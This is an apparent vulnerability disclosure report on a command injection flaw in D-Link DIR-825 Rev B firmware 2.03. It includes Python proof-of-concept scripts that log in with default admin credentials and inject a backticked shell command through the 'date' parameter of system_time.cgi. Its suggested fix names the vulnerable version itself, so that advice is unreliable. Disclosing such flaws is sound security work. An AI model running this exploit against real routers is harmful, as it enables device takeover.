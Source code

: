 

# CVE Report - Command Injection Vulnerability in DIR_825_REVB_FIRMWARE_2.03 Routers 

## Vulnerability Title

Command Injection Vulnerability in DIR_825_REVB_FIRMWARE_2.03 Router. 

## Vulnerability Description

DLINK DIR_825_REVB_FIRMWARE_2.03 devices have an OS command injection vulnerability
in the CGl interface "system_time.cgi",which allows remote attackers to execute arbitrary
commands via parameter "date" passed to the "system_time.cgi" binary
through a POST request.

## Reproduction Steps

1. Log in to the router.

```python
import requests

device_web_ip = '172.17.0.29'

headers = {

  'Host': device_web_ip,

  'Connection': 'keep-alive',

  'Content-Length': '1000',

  'Cache-Control': 'max-age=0',

  'Upgrade-Insecure-Requests': '1',

  'Origin': f'http://{device_web_ip}',

  'Content-Type': 'application/x-www-form-urlencoded',

  'Referer': f'http://{device_web_ip}',

  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',

  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',

  'Accept-Encoding': 'gzip, deflate',

  'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'

}

login_params = login_params = {

  'html_response_page': 'logout_fail.asp',

  'login_name': 'YWRtaW4A',

  'login_n': 'admin',

  'login_pass': 'YWRtaW4A',

  'login': 'Log In'

}

login_url = 'http://{}/login.cgi'.format(device_web_ip)

r = requests.post(url=login_url, data=login_params, headers=headers, timeout=0.2)

if r is None or r.status_code != 200:

 print('Login wrong, please retry!')

 exit()

print(r.text)
```



2. Use the following Python code to test the vulnerability:

```py
#coding=gbk
import requests
import pickle 
import time

device_web_ip = "172.17.0.29"
base_url = "http://172.17.0.29/"

headers = {
    'Host': device_web_ip,
    'Connection': 'keep-alive',
    'Content-Length': '1000',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': f'http://{device_web_ip}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Referer': f'http://{device_web_ip}',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'
}

target_para = {
    'date':'`ping -c 3 172.17.0.1`',
    }
r = requests.post(url=base_url+'system_time.cgi', data=target_para, headers=headers)
print(r.text)
```



## Cause Analysis

The get_cgi function accepts external data and it enters system execution, resulting in a command execution vulnerability.

![image-20241229184015981](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20241229184015981.png)

## Suggested Fix

It is recommended to update to the version of DIR_825_REVB_FIRMWARE_2.03 router to fix this vulnerability. 

